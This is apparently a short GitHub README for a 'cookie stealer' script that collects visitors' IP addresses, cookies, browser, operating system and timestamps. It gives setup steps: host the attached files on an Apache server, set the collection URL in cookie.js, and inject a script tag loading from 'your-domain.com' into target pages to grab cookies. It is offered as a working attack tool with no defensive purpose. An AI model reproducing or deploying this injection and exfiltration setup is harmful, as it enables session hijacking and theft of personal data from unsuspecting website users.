 # Most Advanced Cookie Stealer Script
#Fetches User IP, Application Port Number, User Cookies, User Browser Name, User Operating System Name, Date & Time

1. Host the two attached files in an apache server

2. Modify the url with your url in cookie.js

3.  Insert the following code where you want to grab cookie <script src="http://your-domain.com/script">



